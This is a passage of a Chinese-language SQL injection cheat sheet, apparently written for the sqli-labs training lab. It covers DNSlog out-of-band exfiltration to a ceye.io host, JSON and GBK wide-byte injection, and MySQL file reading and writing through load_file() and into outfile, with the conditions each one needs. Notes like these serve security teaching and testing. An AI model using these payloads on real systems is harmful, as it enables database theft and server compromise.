 #### DNSlog 外带

- 利用代码：`Less-8/?id=1' and load_file(concat('\\\\',hex(user()),'.xxx.ceye.io\\abc'))--+`
- 利用条件：
  1. 只适用于 Windows 平台
  2. secure_file_priv=''

#### JSON 注入

应用程序未对提交的 JSON 数据进行验证、过滤，导致修改了 JSON 数据的语义。

- 利用代码：`json={"name":"admin' and 1=2#"}`

#### 宽字节注入

GB2312、GBK、BIG5、GB18030、Shift\_JIS 等这些都是常说的宽字节，宽字节实际上是两个字节，它带来的安全问题只是吃 ASCII 字符（一字节）的现象

* 原理
  * %df' 被 PHP 转义（开启 GPC、用 addslashes 函数等），单引号被加上反斜杠 \，变成了 %df'，其中\的十六进制是 %5C，导致 %df' 变成了 %df%5c%27，MySQL 会认为它是一个宽字节，有了单引号就可以注入了

* 利用条件
  * 只有 GBK 编码才会生效

#### 文件读写

* load\_file() 函数读文件操作
  * 必备条件：
    * 文件必须在服务器上
    * 关闭魔术引号（magic_quotes_gpc()=OFF）
    * 知道站点物理路径
      * 常见方式：报错显示、遗留文件（phpinfo.php）、配置文件
    * MySQL 用户对文件有读写权限（security_file_priv != NULL）
    * load\_file() 函数操作文件的当前目录是 @@datadir（即数据库存储路径）
    * 文件大小必须小于 max\_allowed\_packet，@@max\_allowed\_packet 的默认大小是16M，最大为1G
  * SQL 语句如下：
    * `union select 1,load_file('文件路径'),3`
    * `union select 1,load_file(HEX格式),3`
    * `union select 1,load_file(char(ASCII码)),3`
* into outfile 写文件操作
  * 必备条件
    * 关闭魔术引号（magic_quotes_gpc()=OFF）
    * 用户有写文件的权限（security_file_priv != NULL）
    * into outfile 不可以覆盖已存在的文件
    * into outfile 必须是最后一个查询
    * 知道站点物理路径
      * 常见方式：报错显示、遗留文件（phpinfo.php）、配置文件
  * SQL语句如下：
    * `select [文本内容|char(ASCII码)] into outfile 文件绝对路径`
    * `select 1 into outfile 文件绝对路径 lines terminated by 16进制内容`

### Oracle

#### 获取元数据
